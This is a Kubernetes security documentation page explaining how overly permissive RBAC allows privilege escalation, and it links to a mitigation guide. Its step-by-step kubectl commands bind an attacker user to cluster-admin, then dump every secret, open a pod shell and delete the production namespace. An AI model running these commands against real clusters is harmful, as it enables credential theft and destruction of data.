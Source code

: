 ```yaml
---
sidebar_position: 8
title: "Insecure RBAC Permissions"
description: "How overly permissive Kubernetes RBAC configurations enable privilege escalation and full cluster compromise."
---
```


# Insecure RBAC Permissions

Kubernetes uses **Role-Based Access Control (RBAC)** to manage who can perform which actions on which resources. When RBAC is misconfigured—especially with **wildcard permissions**, **cluster-wide bindings**, or **unscoped roles**—an attacker can gain unauthorized access or escalate privileges to compromise the cluster.

---

## Exploitation Steps: Privilege Escalation via RBAC

An attacker leverages excessive RBAC permissions to escalate privileges and gain administrative control over the cluster.

### Step 1: Identify RBAC Roles and Bindings

The attacker inspects roles, cluster roles, and their bindings using a compromised pod or low-privileged user account:

```bash
kubectl get roles,rolebindings,clusterroles,clusterrolebindings -A
```

They search for any role or binding that includes excessive permissions or wildcards (`*`).

### Step 2: Check Impersonation Privileges

The attacker tests if they can impersonate other users—especially administrators:

```bash
kubectl auth can-i '*' '*' --as=admin
```

If the response is `yes`, they can act as an admin user.

### Step 3: Bind to Cluster Admin Role

If the attacker has permission to bind roles, they can bind themselves to the powerful `cluster-admin` role:

```bash
kubectl create clusterrolebinding attacker-admin \
  --clusterrole=cluster-admin \
  --user=attacker
```

Alternatively, they may discover an existing binding like this:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: pwned-cluster-admin
subjects:
  - kind: User
    name: admin
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

Apply it using:

```bash
kubectl apply -f pwned-cluster-admin.yaml
```

### Step 4: Gain Full Access

With `cluster-admin` privileges, the attacker can now:

```bash
kubectl get secrets -A
kubectl exec -it <pod-name> -- /bin/sh
kubectl delete namespace production
```

They effectively control the entire cluster.

---

## Summary

RBAC misconfigurations—such as **wildcard permissions**, **unscoped bindings**, and **overly privileged roles**—can be exploited by attackers to gain full administrative access to Kubernetes clusters. These mistakes are often present in development or poorly hardened environments, making RBAC a prime target for lateral movement and privilege escalation.

➡ [See Mitigation Guide for Insecure RBAC Permissions](/docs/best_practices/cluster_setup_and_hardening/rbac_and_identity/insecure_rbac_permissions_mitigation)
